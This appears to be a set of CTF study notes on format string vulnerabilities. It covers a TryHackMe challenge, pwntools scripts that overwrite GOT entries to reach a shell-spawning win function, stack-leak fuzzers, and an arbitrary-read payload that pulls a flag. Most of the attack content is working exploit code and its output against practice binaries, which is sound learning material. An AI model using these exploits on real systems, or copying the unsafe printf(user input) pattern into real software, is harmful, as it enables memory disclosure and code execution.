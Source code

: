 # Format String Exploits




## TryPwnMe One (TryHackMe) Not Specified

```c
int win(){
    system("/bin/sh\0");
}

int main(){
    setup();
    banner();
    char *username[32];
    puts("Please provide your username\n");
    read(0,username,sizeof(username));
    puts("Thanks! ");
    printf(username);
    puts("\nbye\n");
    exit(1);    
}
```
![image(1)](https://github.com/user-attachments/assets/5bb758be-86d4-421f-8918-2c988b653657)

so using ```AAAAAAAA%p.%p.%p.%p.%p.%p``` we got our input is at 6th    we can do this also other way like : 


![image](https://github.com/user-attachments/assets/ee18ad84-56a6-42a8-9215-16508b36b4d9)

```
python3 -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))" | ./notspecified | grep 4847

```

#### SOl :

 We can make use of the fmtstr_payload function of pwntools. But it is important to set the architecture and endianess first. 

 With the following script, we abuse the format string vulnerability to get a shell. It overwrites the GOT entry for the exit function with the address of the win function, so when the program tries to call exit, it instead executes the win function. It generates a payload using fmtstr_payload, which specifies the overwrite.

 In a format string vulnerability, we need to know where on the stack our input is, so we can use it to modify memory in a controlled way. In this case, index 6 is where the format string begins, so we would pass 6 as the offset to functions like fmtstr_payload in pwntools, allowing it to know where to inject the payload.

```py
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'amd64', endian ='little')
def send_payload(payload):
        s.recvline()
        s.sendline(payload)
        r = s.recvline()
        return r

elf = ELF('./notspecified')

exit_got = elf.got['exit']
win_func = elf.symbols['win']

s = process('./notspecified')
#s = remote('host', port)

payload = fmtstr_payload(6, {exit_got: win_func})
print(payload)

print(send_payload(payload))
s.interactive()


```

we can do this another way by overwriting the PUTS adress 

```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level = "error")
context.binary = binary = ELF("./notspecified", checksec=False)

#r = remote("hOST", pORT)
r = process()

payload = fmtstr_payload(6, {binary.got["puts"] : binary.symbols["win"]})

print(b"payload : ",payload)

r.sendline(payload)
r.interactive()
r.close()

```















# ............................................................................................................

A format string vulnerability is a bug where user input is passed as the format argument to printf, scanf, or another function in that family.

The format argument has many different specifiers which could allow an attacker to leak data if they control the format argument to printf. Since printf and similar are variadic functions, they will continue popping data off of the stack according to the format.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    int secret_num = 0x8badf00d;

    char name[64] = {0};
    read(0, name, 64);
    printf("Hello ");
    printf(name);
    printf("! You'll never get my secret!\n");
    return 0;
}
```
Due to how GCC decided to lay out the stack, secret_num is actually at a lower address on the stack than name, so we only have to go to the 7th "argument" in printf to leak the secret:

```bash
$ ./fmt_string
%7$llx
Hello 8badf00d3ea43eef
! You'll never get my secret!
```

# Format Strings - Arbitrary Read 
## TYPE 1
In basic lavel we just have to leak the memory ,here is an example :

![image](https://github.com/user-attachments/assets/d07c0a0f-788b-40bb-8aa7-8e475989ae2d)

Here we are getting the same thing that we are inputing lets try %x,%p,%s,%llx to find is it a formatstring vurnabilty.
![image](https://github.com/user-attachments/assets/e1c95c23-f0de-41ee-8ed1-48af83ec08eb)
yes it is, lets leak more
```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    payload = f'%{i}$p'
    io.sendline(payload)
    print(io.recvall())
```
OR 
```py
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format_vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```
![image](https://github.com/user-attachments/assets/f4d233c0-3c8e-4c11-8d65-ab6f7a144efc)

And After From Hex the password is : Pa$$w0rd_1s_0n_Th3_St4ck
![image](https://github.com/user-attachments/assets/5d1d462a-8acd-4ac7-87e7-8416602aceec)


## TYPE 2
Here is a another type after the password there is another input
![image](https://github.com/user-attachments/assets/02d92cac-7c24-4bf1-b5ea-ac8facc20fa9)
Lets check
![image](https://github.com/user-attachments/assets/c5a9b899-a84d-425f-9769-dc3e1b070d82)
Yes we can do the same but now our task is to leak flag from the given address . so is short wht we have to do is we have to find the offset and put the flag address to leak the flag .

![image](https://github.com/user-attachments/assets/0797952a-ee32-45f0-abf6-6146fd4d3823)

```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
    payload = f'AAAAAAAA.%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```
Here 16 is our offset.So lets find the flag.
![image](https://github.com/user-attachments/assets/ba9ecc61-46cf-427a-b3d3-1923529208ca)
Here we go 
```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'


io = process('./fmt_read')
io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
payload = b'%17$sAAA' + p64(0x404080)
io.sendline(payload)
io.interactive()


# nm ./fmt_read  fr address
```
